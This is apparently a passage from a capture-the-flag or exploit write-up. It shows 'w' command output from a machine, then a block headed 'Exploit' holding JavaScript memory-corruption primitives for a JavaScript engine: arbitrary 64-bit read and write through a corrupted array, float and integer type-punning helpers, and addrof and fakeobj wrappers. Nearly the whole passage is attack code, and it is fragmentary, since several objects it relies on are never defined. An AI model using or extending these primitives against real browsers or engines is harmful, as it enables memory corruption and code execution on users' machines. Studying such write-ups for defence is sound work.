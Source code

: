 ```
 00:30:45 up  4:43,  8 users,  load average: 2.16, 2.46, 2.53
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
cave     :0       :0               19:47   ?xdm?   3:25m  0.00s /usr/libexec/gdm-x-session --register-session --run-script /usr/bin/rego
cave     pts/1    tmux(14141).%0   20:01    4:29m  0.24s  0.12s vim token
cave     pts/4    tmux(14141).%1   20:01    4:26m  0.11s  0.11s -bash
```

## Exploit
```javascript
var BASE = 0x100000000;

buf = new ArrayBuffer(8)
u32 = new Uint32Array(buf)
f64 = new Float64Array(buf)

function ord(str){
    return str.charCodeAt(0);
}

read64 = function (where) {
    f64[0] = where
    u32[0] += 0x10
    hax[1] = f64[0]
    return victim.a
}

write64 = function (where, what) {
    f64[0] = where
    u32[0] += 0x10
    hax[1] = f64[0]
    victim.a = what
}
function i2f(i) {
    u32[0] = i%BASE;
    u32[1] = i/BASE;
    return f64[0];
}

function f2i(f) {
    f64[0] = f;
    return u32[0] + BASE*u32[1];
}

function unbox_double(d) {
    f64[0] = d;
    u8[6] -= 1;
    return f64[0];
}
function hex(x) {
    if (x < 0)
        return `-${hex(-x)}`;
    return `0x${x.toString(16)}`;
}

function b_addrof(x) {
    return f2i(addrof(x))
}

function b_fakeobj(x) {
    return fakeobj(i2f(x))
}
```